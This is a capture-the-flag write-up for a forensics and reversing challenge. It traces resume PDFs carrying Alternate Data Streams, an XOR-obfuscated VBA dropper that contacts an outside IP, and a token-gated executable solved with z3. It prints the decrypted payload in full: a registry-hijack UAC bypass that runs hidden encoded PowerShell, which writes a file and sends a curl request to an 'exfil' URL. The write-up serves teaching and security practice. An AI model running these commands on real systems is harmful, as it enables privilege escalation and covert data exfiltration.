


# Google ADSense

> Who looked at our $11.48 monthly AdSense revenue and decided we needed to hire people to boost it?

**Authors:** `Indrath` `tryhard`

**Flag:** `nite{1n_th1s_ultr4_4w3s0m3_p3rf3ct_w0rld_w1ll_th3r3_st1ll_b3_ADS_4nd_UAC_BYPASS?}`

* We mount and explore **`Evidence.vhdx`** and observe a large number of resume-themed PDF files under the `Resumes` and other directories.
* The challenge name **“Google ADSense”** hints toward **Alternate Data Streams (ADS)** rather than obvious file contents.
* Inspection of the files on the NTFS volume reveals that **multiple PDFs contain Alternate Data Streams**.
* Most streams contain short, random-looking (“garbage”) strings.

* One file stands out:
    * **Resumes/GoogleAdsSpecialistResume.pdf**
    * Its ADS stream is significantly larger than the others.
    * Extracting it reveals a **JPEG-XL file**.
* Attempting to open fails (corrupt image)
* Hex inspection shows **OLE/DOC signatures**
* File renamed using `mv` to `.doc`
* Document opens with meaningless filler text

* Using **olevba**, we enumerate macros in the document.
    * Several benign modules:
        * **Module6** is heavily obfuscated
        *  XOR-based string obfuscation (`XORObfs`)
        * `olevba` fails to auto-deobfuscate
        * It seems likely this was used: https://github.com/BaptisteVeyssiere/vba-macro-obfuscator

* After manual de-XORing and cleanup, the logic becomes clear:
    * The document is a **malware dropper**
    * It silently reads ADS streams from specific PDF files in the `Resumes` directory
    * Concatenates selected ADS content
    * Sends ciphertext + key to an API function:  `http://137.32.34.67/NiteDecrypt.AES256_CBC_NOPAD_NO_IV_Key(ct,key)`
    * The API endpoint is offline.

* From macro analysis, we extract:
    * **Which files are used**
    * **Exact ADS streams**
    * **Concatenation order**
    * **Key location**


| File name                             | ADS File Name  | Content                                            |
| ------------------------------------- | -------------- | -------------------------------------------------- |
| GoogleAdsAnalystResume.pdf            | q8X7sP1mDa.txt | tdceq0cizXmLzB23PFRG                               |
| GoogleAdsConsultantResume.pdf         | Z1kP9wLmQe.txt | kew4y9jXv3o953S                                    |
| GoogleAdsConsultantEngineerResume.pdf | tR92LmX0Qa.txt | q1+aCxzRfwwEeXL/fukbdBFRZ                          |
| GoogleAdsManagerResume.pdf            | B7nQp4XyWc.txt | ey8ySPw90EPjVoqF4M                                 |
| GoogleAdsStrategistResume.pdf         | mA04sZpQ8H.txt | /zm8kZGkDnpVFXGT3/I/QmJ8EE/MsPkGJxuiU1UNwz2qY8amli |

* Concatenating the order as per the VBA Script we get:

```
tdceq0cizXmLzB23PFRGkew4y9jXv3o953Sq1+aCxzRfwwEeXL/fukbdBFRZey8ySPw90EPjVoqF4M/zm8kZGkDnpVFXGT3/I/QmJ8EE/MsPkGJxuiU1UNwz2qY8amli
```

* From the script we can see how the key was extracted

| File name                 | ADS File Name  | Content                            |
| ------------------------- | -------------- | ---------------------------------- |
| GoogleAdsKeeperResume.pdf | abxu07mnid.txt | `nite{us3l3ss_but_y0u_n3v3r_kn0w}` |

* Because the API server is down, we implement AES-256-CBC decryption locally using `pycryptodome` or an online solver with the key and no padding or IV

* On Decrypting we get
`https://github.com/adsensenite/adsensetoken/releases/download/v7/adsense_token.exe`

* Once decrypted, the malware:
    1. Constructs a `curl` / HTTP GET request
    2. Downloads a GitHub release executable: `adsense_token.exe`
    3. Executes it on the victim machine

We now aim to reverse engineer the executable.

The exe prompts the user for a token. We are greeted with a screen that says that "Incorrect Token" if we try some random values. Our next logical step now is to deompile the binary and look at what is being done with our input.

`sub_1400034A0` happens to be our main function.



Here we can see that our input is stored in `String` then passed to `sub_140003110` via `Block`.

`sub_140003110` calls a bunch of validation functions and validates the user input.

Now we can implement those validation functions as z3 constraints to get the correct token. Additionally a hash check is being done in `sub_140001A5D` which checks if the input has a md5 hash of `5a51c90d12681dd8bb75d00ec1d37a96`.

z3 solve script:
```python
import z3
from hashlib import md5

def solve():
    s = z3.Solver()

    d = [z3.Int(f'd_{i}') for i in range(16)]

    for i in range(16):
        s.add(d[i] >= 0, d[i] <= 9)

    # sums of groups of 4
    s.add(d[0] + d[1] + d[2] + d[3] == 15)
    s.add(d[4] + d[5] + d[6] + d[7] == 9)
    s.add(d[8] + d[9] + d[10] + d[11] == 17)
    s.add(d[12] + d[13] + d[14] + d[15] == 16)

    # hardcoded 0 positions
    for idx in [2, 4, 6, 10, 12, 14]:
        s.add(d[idx] == 0)

    # product of non zero elements
    targets = [84, 8, 112, 63]
    for i in range(4):
        indices = range(i * 4, i * 4 + 4)
        terms = [z3.If(d[j] == 0, 1, d[j]) for j in indices]
        s.add(terms[0] * terms[1] * terms[2] * terms[3] == targets[i])

    for i in range(4):
        # Odd indexed pairs < 29
        s.add((d[i*4] * 10 + d[i*4+1]) < 29)
        # Even indexed pairs < 10
        s.add((d[i*4+2] * 10 + d[i*4+3]) < 10)

    # prime index sum
    prime_indices = [2, 3, 5, 7, 11, 13]
    s.add(sum(d[i] for i in prime_indices) == 29)

    # odd,even
    s.add(sum(z3.If(d[i] == 0, 0, z3.If(d[i] % 2 == 0, 1, -1)) for i in range(16)) == 0)

    target_hash = "5a51c90d12681dd8bb75d00ec1d37a96"

    # Iterate through valid models
    while s.check() == z3.sat:
        m = s.model()
        nums = "".join(str(m[d[i]]) for i in range(16))
        token = "pub-" + nums

        if md5(token.encode()).hexdigest() == target_hash:
            print(f"valid token: {token}")
            return

        # skip solution if hash doesnt match
        print(f"Checking: {token}")
        s.add(z3.Or([d[i] != m[d[i]] for i in range(16)]))

if __name__ == "__main__":
    solve()
```

Now going back to `sub_1400034A0` once the token passes the check, we see the following:



Here we see that `Paint` or `unk_1400BA188` has some encrypted stuff which gets XORed with `v14`, and `v14` is nothing but `Block` which is our validated token. After this `cmd.exe` is spawned and the decrypted malicious code gets executed.

Now to decrypt the malicious code, we can again write a python script.

```python
encrypted_data = [
    0x2, 0x10, 0x5, 0xd, 0x53, 0x53, 0x54, 0x16, 0x78, 0x73, 0x73, 0x64, 0x6e, 0x6b, 0x5f, 0x51, 0x44, 0x40, 0x51, 0x4b, 0x15, 0x29, 0x21, 0x41, 0x53, 0x44, 0x43, 0x53, 0x43, 0x64, 0x44, 0x50, 0x41, 0x53, 0x5d, 0x50, 0x42, 0x6b, 0x43, 0x51, 0x15, 0x19, 0xe, 0x71, 0x5d, 0x47, 0x55, 0x58, 0x6c, 0x5b, 0x5f, 0x5c, 0x5f, 0x59, 0x5e, 0x53, 0x10, 0x18, 0x46, 0x5c, 0x50, 0x5a, 0x16, 0xd, 0x60, 0x72, 0x77, 0x69, 0x63, 0x62, 0x10, 0x1e, 0x56, 0x18, 0x12, 0x47, 0x5f, 0x40, 0x55, 0x4b, 0x3, 0x1d, 0x7, 0x41, 0x5e, 0x19, 0x55, 0x4e, 0x55, 0x18, 0x1d, 0x7f, 0x5d, 0x68, 0x10, 0x1a, 0x7e, 0x58, 0x5e, 0x70, 0x50, 0x58, 0x35, 0xd, 0x7a, 0x5e, 0x54, 0x52, 0x55, 0x56, 0x10, 0x1c, 0x77, 0x40, 0x55, 0x54, 0x10, 0x75, 0x49, 0x49, 0x11, 0x6, 0x11, 0xd, 0x1f, 0x52, 0x5e, 0x55, 0x10, 0x62, 0x67, 0x7f, 0x5d, 0x5a, 0x49, 0x75, 0x45, 0x56, 0x68, 0x6b, 0x1c, 0x10, 0x18, 0x6b, 0x47, 0x6f, 0x3, 0x64, 0x5f, 0x75, 0x68, 0x7f, 0x54, 0x5c, 0x67, 0x4f, 0x0, 0x54, 0x5a, 0x6b, 0x16, 0x3b, 0x2a, 0x4e, 0x48, 0x54, 0x4a, 0x74, 0x44, 0x75, 0x1, 0x8, 0x45, 0x75, 0x3, 0x7d, 0x5d, 0x7a, 0x2, 0x77, 0x40, 0x2d, 0x51, 0x4e, 0x45, 0x54, 0x5d, 0x4e, 0x5b, 0x60, 0x3, 0x52, 0x4a, 0x5a, 0x77, 0x4f, 0x56, 0x53, 0x77, 0x5e, 0xa, 0x16, 0x8, 0x63, 0x54, 0x54, 0x3, 0x67, 0x48, 0x5a, 0x77, 0x49, 0x54, 0x61, 0x5a, 0x79, 0x56, 0x66, 0x65, 0x6b, 0x24, 0x2d, 0x18, 0x7f, 0x47, 0x6d, 0x76, 0xf, 0x66, 0x69, 0x65, 0x7f, 0x54, 0x69, 0x5c, 0x5b, 0x61, 0x66, 0x66, 0x77, 0x24, 0x25, 0x51, 0x1d, 0x55, 0x51, 0x73, 0x74, 0x60, 0x5c, 0x68, 0x60, 0x46, 0x6a, 0x5d, 0x5b, 0x43, 0x6d, 0x63, 0x7b, 0x34, 0x3a, 0xe, 0x55, 0x2, 0x6d, 0x67, 0x7, 0x47, 0x60, 0x77, 0x6b, 0x41, 0x61, 0x67, 0x54, 0x45, 0x53, 0x78, 0x51, 0x40, 0x3a, 0x1b, 0x6f, 0x58, 0x53, 0x68, 0x7c, 0x43, 0x71, 0x77, 0x59, 0x2, 0x5c, 0x78, 0x76, 0x6, 0x7b, 0x49, 0x0, 0x1d, 0x17, 0x51, 0x67, 0x5e, 0x55, 0x5e, 0x78, 0x40, 0x61, 0x3, 0x7c, 0x47, 0x5a, 0x5d, 0x5b, 0x0, 0x6d, 0x67, 0x77, 0x40, 0x2f, 0x8, 0x64, 0x3, 0x7b, 0x5d, 0x4e, 0x40, 0x5c, 0x5d, 0x64, 0x44, 0x62, 0x68, 0x5f, 0x5d, 0x56, 0x67, 0x4e, 0x5f, 0x2f, 0x25, 0x6b, 0x2, 0x6e, 0x64, 0x7, 0x1, 0x61, 0x67, 0x7f, 0x54, 0x61, 0x5e, 0x5b, 0x47, 0x6e, 0x68, 0x77, 0xa, 0x2d, 0x51, 0x63, 0x3, 0x6e, 0x2, 0x78, 0x5c, 0x5b, 0x3, 0x7f, 0x5f, 0x5c, 0x67, 0x40, 0xd, 0x15, 0x10, 0x16, 0x16, 0x55, 0x44, 0xb, 0x12, 0x44, 0x44, 0x57, 0x42, 0x4c, 0x10, 0x45, 0x53, 0x4b, 0x5b, 0x5a, 0x57, 0x45, 0x1e, 0x5c, 0x8, 0x10
]

pin = "pub-2706080128070709"
decrypted_data = []

for i in range(len(encrypted_data)):
    decrypted_data.append(encrypted_data[i] ^ ord(pin[i % len(pin)]))

print("".join(map(chr, decrypted_data)))
```

The output is a classic UAC bypass technique that hijacks Task Manager and executes a base64 encoded payload through powershell:
```powershell
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc ZWNobyBuaXRlezFuX3RoMXNfdWx0cjRfNHczczBtM19wM3JmM2N0X3cwcmxkX3cxbGxfdGgzcjNfc3QxbGxfYjNfQURTXzRuZF9VQUNfQllQQVNTP30gfCBPdXQtRmlsZSBDOlx0ZW1wXGZsYWcudHh0OyBjdXJsIGh0dHA6Ly9mb3JlbnNpY3Mubml0ZWN0ZjI1LmxpdmUvZXhmaWw/ZGF0YT11YWNfYnlwYXNzX3N1Y2Nlc3NmdWw=" /f && start taskmgr.exe
```

Decoding the payload we get our flag:
```powershell
echo nite{1n_th1s_ultr4_4w3s0m3_p3rf3ct_w0rld_w1ll_th3r3_st1ll_b3_ADS_4nd_UAC_BYPASS?} | Out-File C:\temp\flag.txt; curl http://forensics.nitectf25.live/exfil?data=uac_bypass_successful
```

Source code of the binary: [binarysource.cpp](./binarysource.cpp)
